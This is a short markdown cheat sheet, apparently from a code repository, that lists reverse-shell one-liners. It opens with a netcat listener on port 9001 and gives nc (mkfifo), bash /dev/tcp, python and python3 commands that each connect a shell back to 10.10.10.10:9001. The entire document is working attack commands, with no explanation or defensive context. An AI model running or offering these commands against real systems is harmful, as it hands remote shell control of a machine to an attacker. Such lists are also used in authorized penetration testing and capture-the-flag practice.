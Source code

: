 # Listen

```bash
nc -nvlp 9001
```

# Get shell

## nc

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

## bash

```bash
bash -c "bash -i >& /dev/tcp/10.10.10.10/9001 0>&1"
```

## python

```bash
export RHOST="10.10.10.10";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

## python3

```bash
export RHOST="10.10.10.10";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
